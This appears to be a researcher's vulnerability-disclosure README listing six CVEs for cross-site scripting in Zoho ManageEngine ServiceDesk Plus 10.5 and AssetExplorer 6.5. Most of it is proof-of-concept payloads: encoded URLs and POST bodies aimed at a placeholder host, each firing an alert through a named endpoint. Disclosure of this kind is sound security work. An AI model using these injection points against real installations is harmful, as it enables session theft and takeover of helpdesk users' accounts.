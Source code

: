 # Zoho-ManageEngine-XSS

Zoho ManageEngine ServiceDesk Plus and AssetExplorer Cross-Site Scripting (XSS) Vulnerability

**Researcher: Enter of The Tarantula Team, VinCSS (a member of Vingroup)**
 
# CVE-2019-12539 

Zoho ManageEngine ServiceDesk Plus 10.5 Cross-Site Scripting vulnerability

Payload: Sent HTTP POST Request to: https://victim.com/SearchN.do with the following payload:

```
searchText=%27%3E%3Csvg+onload%3Dalert%28%27xss%27%29%3E&subModSelText=&selectName=Purchase&selectName=Purchase&selectedName=Purchase&submitbutton=GO
 ```

# CVE-2019-12540 

Zoho ManageEngine ServiceDesk Plus 10.5 Cross-Site Scripting vulnerability

Payload: 

```
https://victim.com/WorkOrder.do?woMode=viewWO5%27%3balert(%27XSS%27)%2f%2f
``` 

# CVE-2019-12595 

Zoho ManageEngine AssetExplorer 6.5 Cross-Site Scripting vulnerability

Payload: 

```
https://victim.com/RCSettings.do?rdsName=Windows%20Remote%20Desktop%00zc6p3%3Cimg%20src%3da%20onerror%3dalert(%27XSS%27)%3Ekgo&description=This+tool+uses+the+windows+utility+%27mstsc%27+to+take+remote+and+it+is+available+by+default+in+windows+machines.&OS_COMMAND_1=mstsc+%2Fv%3A%24DEVICENAME&OS_TARGET_1_1=1&OS_COMMAND_2=&saveRds=Save&rdsId=2 
 ```

# CVE-2019-12596

Zoho ManageEngine AssetExplorer 6.5 Cross-Site Scripting vulnerability

Payload: 

```
https://victim.com/SoftwareListView.do?softwareManufacturer=-1&site=-1&swType=488529);alert(%27XSS%27)%2f%2f298&swComplianceType=0&fromSoftwareHome=true&showZeroCount=false
 ```
 
# CVE-2019-12597

Zoho ManageEngine AssetExplorer 6.5 Cross-Site Scripting vulnerability 

Payload:

```
https://victim.com/asset/ResourcesAttachments.jsp?type=new&wsID=87&date=1559400074944&pageName=a%22%3E%3Cimg%20src%3da%20onerror%3dalert(%27XSS%27)%3E
```

# CVE-2019-12537 

Zoho ManageEngine AssetExplorer 6.5 Cross-Site Scripting vulnerability 

Payload:

Sent HTTP POST Request to: https://victim.com/SearchN.do with the following payload:

```
selectName=Purchase&searchText=%27%3E%3Csvg+onload%3Dalert%28%27xss%27%29%3E&submitbutton=%C2%A0
```
 

